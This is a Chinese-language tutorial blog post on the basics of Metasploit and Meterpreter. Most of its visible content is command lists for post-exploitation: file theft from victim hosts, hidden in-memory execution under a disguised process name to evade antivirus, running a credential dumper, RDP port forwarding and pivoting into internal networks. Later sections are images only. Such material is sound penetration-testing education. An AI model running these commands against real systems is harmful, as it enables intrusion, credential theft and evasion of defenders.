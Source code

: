 ```yaml
---
layout: post
title:  "Metasploit 渗透测试框架的基本使用"
date:   2021-03-06
categories: 网络安全
tags: msf使用
---
```


* content
{:toc}
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210306094443161.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQwOTY1MTc3,size_16,color_FFFFFF,t_70)
##  msf框架
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210306094502808.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQwOTY1MTc3,size_16,color_FFFFFF,t_70)
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210306094519883.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQwOTY1MTc3,size_16,color_FFFFFF,t_70)
##  msf基本命令
**1.基本命令**

```bash
help# 查看Meterpreter帮助
background#返回，把meterpreter后台挂起
bgkill# 杀死一个背景 meterpreter 脚本
bglist#提供所有正在运行的后台脚本的列表
bgrun#作为一个后台线程运行脚本
channel#显示活动频道
sessions -i number # 与会话进行交互，number表示第n个session,使用session -i 连接到指定序号的meterpreter会话已继续利用
sesssions -k  number #与会话进行交互
close# 关闭通道
exit# 终止 meterpreter 会话
quit# 终止 meterpreter 会话
interact id #切换进一个信道
run#执行一个已有的模块，这里要说的是输入run后按两下tab，会列出所有的已有的脚本，常用的有autoroute,hashdump,arp_scanner,multi_meter_inject等
irb# 进入 Ruby 脚本模式
read# 从通道读取数据
write# 将数据写入到一个通道
run和bgrun# 前台和后台执行以后它选定的 meterpreter 脚本
use# 加载 meterpreter 的扩展
load/use#加载模块
Resource#执行一个已有的rc脚本
```
**2.文件系统命令**
```bash
del c:\boot.ini #删除指定的文件
upload /root/Desktop/netcat.exe c:\ # 上传文件到目标机主上，如upload  setup.exe C:\\windows\\system32\
download nimeia.txt /root/Desktop/   # 下载文件到本机上如：download C:\\boot.ini /root/或者download C:\\"ProgramFiles"\\Tencent\\QQ\\Users\\295******125\\Msg2.0.db /root/
edit c:\boot.ini  # 编辑文件
getlwd#打印本地目录
lcd#更改本地目录
ls#列出在当前目录中的文件列表
lpwd#打印本地目录
cd c:\\ #进入目录文件下
rm file #删除文件
rmdir#受害者系统上删除目录
search -d d:\\www -f web.config #search 文件，如search  -d c:\\  -f*.doc
meterpreter > search -f autoexec.bat  #搜索文件
meterpreter > search -f sea*.bat c:\\xamp\\
enumdesktops     #用户登录数
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210307141420442.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQwOTY1MTc3,size_16,color_FFFFFF,t_70)
这样太明显，如果希望隐藏后台执行，加参数-H
```bash
execute  -H -f notepad.exe
```
再看一个，我们运行目标主机上的cmd.exe程序，并以隐藏的方式直接交互到我们的meterpreter会话上命令：
```bash
execute  -H -i -f cmd.exe
```
这达到的效果就跟使用shell命令一样了
再来一个，在目标主机内存中直接执行我们攻击主机上的攻击程序，比如wce.exe，又比如木马等，这样可以避免攻击程序存储到目标主机硬盘上被发现或被查杀。
```bash
execute  -H -m -d notepad.exe-f  wce.exe -a "-o wce.txt"
-d 在目标主机执行时显示的进程名称（用以伪装）
-m 直接从内存中执行
 "-o wce.txt"是wce.exe的运行参数
 ```

**3.网络命令**
```bash
ipconfig/ifconfig#显示网络接口的关键信息，包括 IP 地址
portfwd -h
用法：portfwd [-h] [add | delete | list | flush] [args]
选项：
    -L <opt>要监听的本地主机（可选）
    -h帮助横幅
    -l <opt>要监听的本地端口
    -p <opt>连接到的远程端口
    -r <opt>要连接到的远程主机
portfwd  add -l 4444 -p 3389 -r 192.168.1.102 # 端口转发,本机监听4444,把目标机3389转到本机4444
netstat -an | grep“4444"  #查看指定端口开放情况
rdesktop -u Administrator -p bk#123 127.0.0.1:4444 #使用rdesktop来连接桌面，-u 用户名 -p 密码
rdesktop 127.1.1.0:4444 #需要输入用户名和密码远程连接
route#查看或修改受害者路由表
route add 192.168.1.0 255.255.255.0 1 #添加动态路由
route print #路由表输出
runget_local_subnets #目标主机的内网IP段情况
Arp       #看ARP缓冲表
Getproxy     #获取代理
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210307141942542.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQwOTY1MTc3,size_16,color_FFFFFF,t_70)
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210307142041694.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQwOTY1MTc3,size_16,color_FFFFFF,t_70)
大多时候我们获取到的meterpreter shell处于内网，而我们需要代理到目标内网环境中，扫描其内网服务器。这时可以使用route功能，添加一条通向目标服务器内网的路由。

查看shell网络环境：

meterpreter>run get_local_subnets

添加一条通向目标服务器内网的路由

meterpreter>run autoroute -s 100.0.0.0/8   #(根据目标内网网络而定)

查看路由设置：

meterpreter>run autoroute –p

一般来说，在meterpreter中设置路由便可以达到通往其内网的目的。然而有些时候还是会失败，这时我们可以background返回msf>，查看下外面的路由情况。

route print

如果发现没有路由信息，说明meterpreter shell设置的路由并没有生效，我们可以在msf中添加路由。

msf>route add 10.0.0.0 255.0.0.0 1

说明：1表示session 1，攻击机如果要去访问10.0.0.0/8网段的资源，其下一跳是session1，至于什么是下一条这里不多说了，反正就是目前攻击机可以访问内网资源了。
![在这里插入图片描述](https://img-blog.csdnimg.cn/2021030609480862.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQwOTY1MTc3,size_16,color_FFFFFF,t_70)

![在这里插入图片描述](https://img-blog.csdnimg.cn/20210306094827566.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQwOTY1MTc3,size_16,color_FFFFFF,t_70)
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210306094856583.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQwOTY1MTc3,size_16,color_FFFFFF,t_70)
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210306094914642.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210306094936216.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQwOTY1MTc3,size_16,color_FFFFFF,t_70)
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210306094952551.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQwOTY1MTc3,size_16,color_FFFFFF,t_70)
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210306095006769.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQwOTY1MTc3,size_16,color_FFFFFF,t_70)
![在这里插入图片描述](https://img-blog.csdnimg.cn/2021030609502037.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQwOTY1MTc3,size_16,color_FFFFFF,t_70)
###  模块相关的命令use的使用方法
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210306095033285.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQwOTY1MTc3,size_16,color_FFFFFF,t_70)
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210306095046711.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQwOTY1MTc3,size_16,color_FFFFFF,t_70)
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210306095108265.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQwOTY1MTc3,size_16,color_FFFFFF,t_70)
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210306095121342.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQwOTY1MTc3,size_16,color_FFFFFF,t_70)
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210306095142190.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQwOTY1MTc3,size_16,color_FFFFFF,t_70)
###  使用show命令查看模块的相关信息
![在这里插入图片描述](https://img-blog.csdnimg.cn/2021030609523646.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQwOTY1MTc3,size_16,color_FFFFFF,t_70)
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210306095430583.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQwOTY1MTc3,size_16,color_FFFFFF,t_70)
#  使用msf渗透攻击Win7主机并远程执行命令
![在这里插入图片描述](https://img-blog.csdnimg.cn/2021030609544657.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210306095455820.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQwOTY1MTc3,size_16,color_FFFFFF,t_70)
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210306095506720.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQwOTY1MTc3,size_16,color_FFFFFF,t_70)
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210306095522139.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQwOTY1MTc3,size_16,color_FFFFFF,t_70)
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210306095544162.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQwOTY1MTc3,size_16,color_FFFFFF,t_70)
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210306095601806.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQwOTY1MTc3,size_16,color_FFFFFF,t_70)
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210306095617101.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210306095629267.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQwOTY1MTc3,size_16,color_FFFFFF,t_70)
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210306095642638.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQwOTY1MTc3,size_16,color_FFFFFF,t_70)
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210306095658513.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQwOTY1MTc3,size_16,color_FFFFFF,t_70)
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210306095711678.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQwOTY1MTc3,size_16,color_FFFFFF,t_70)
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210306095736444.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQwOTY1MTc3,size_16,color_FFFFFF,t_70)
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210306095748823.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQwOTY1MTc3,size_16,color_FFFFFF,t_70)
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210306095800191.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQwOTY1MTc3,size_16,color_FFFFFF,t_70)
##  使用 msf扫描靶机上mysql服务的空密码
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210306095821355.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQwOTY1MTc3,size_16,color_FFFFFF,t_70)
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210306095854329.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQwOTY1MTc3,size_16,color_FFFFFF,t_70)
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210306095934564.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQwOTY1MTc3,size_16,color_FFFFFF,t_70)
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210306095943726.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQwOTY1MTc3,size_16,color_FFFFFF,t_70)
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210306095952945.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQwOTY1MTc3,size_16,color_FFFFFF,t_70)
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210306100006456.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQwOTY1MTc3,size_16,color_FFFFFF,t_70)
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210306100018208.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQwOTY1MTc3,size_16,color_FFFFFF,t_70)
![在这里插入图片描述](https://img-blog.csdnimg.cn/2021030610003881.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQwOTY1MTc3,size_16,color_FFFFFF,t_70)
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210306100057165.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQwOTY1MTc3,size_16,color_FFFFFF,t_70)
![在这里插入图片描述](https://img-blog.csdnimg.cn/202103061001071.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQwOTY1MTc3,size_16,color_FFFFFF,t_70)
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210306100122544.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQwOTY1MTc3,size_16,color_FFFFFF,t_70)



